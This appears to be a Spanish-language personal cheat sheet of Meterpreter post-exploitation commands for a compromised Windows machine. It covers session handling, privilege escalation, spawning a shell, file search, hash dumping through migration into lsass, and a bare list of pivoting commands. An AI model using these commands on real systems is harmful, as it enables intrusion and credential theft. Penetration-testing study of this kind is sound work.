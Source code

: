 # Meterpreter Commands

Tags: #Windows #Comandos #Meterpreter 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Comandos con Meterpreter

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 

❯ sysinfo                  # Muestra informacion del Windows 
❯ getuid                   # Miramos el nombre del usuario 
❯ getprivs                 # Miramos los  procesos con privilegios 
❯ getsystem                # Miras los procesos privilegiados 
❯ pgrep explorer           # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc          # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 

❯ hashdump                 # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

## Para hacer Pivoting con Metasploit

```bash 
❯ arp                      #
❯ netstat                  # 
❯ route                    # 
❯ portfwd                  # 
```